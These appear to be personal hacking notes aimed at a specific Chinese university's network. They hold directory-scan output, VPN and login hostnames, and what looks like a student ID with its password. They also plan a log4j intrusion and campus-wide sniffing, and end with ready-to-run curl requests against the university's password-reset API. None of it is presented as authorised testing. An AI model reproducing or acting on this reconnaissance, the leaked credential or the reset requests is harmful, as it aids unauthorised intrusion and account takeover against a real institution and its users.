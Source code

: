 ```yaml
---
{"category": "hacking", "created": "2021-12-22T05:45:58.000Z", "date": "2021-12-22 05:45:58", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "modified": "2022-08-18T16:04:01.502Z", "tags": ["freelancer", "hack"], "title": "The Hack (Get password and tests)"}

---
```


dirbuster has found something over  "http://oa.lixin.edu.cn//test/"

+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)

+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)

+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)

+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)

suspicious:

http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do

portal (even in the internet):

http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)

https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn

pdvpn2.lixin.edu.cn

vpn.lixin.edu.cn

vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:

201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?

(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"password":"abcdefABC","userId":""}' \

--compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \

--compressed
